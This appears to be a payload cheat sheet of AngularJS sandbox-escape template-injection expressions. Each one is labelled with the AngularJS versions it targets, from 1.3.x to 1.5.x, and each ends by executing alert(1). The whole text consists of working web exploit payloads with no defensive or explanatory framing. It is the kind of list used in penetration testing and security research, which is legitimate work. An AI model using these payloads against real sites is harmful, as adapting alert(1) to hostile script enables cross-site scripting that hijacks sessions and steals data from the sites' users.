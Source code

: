 ```javascript
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

1.3.1 - 1.3.2

```javascript
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

1.3.3 - 1.3.18

```javascript
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

1.3.19

```javascript
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
```

1.3.20

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

1.4.0 - 1.4.9

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

1.5.0 - 1.5.8
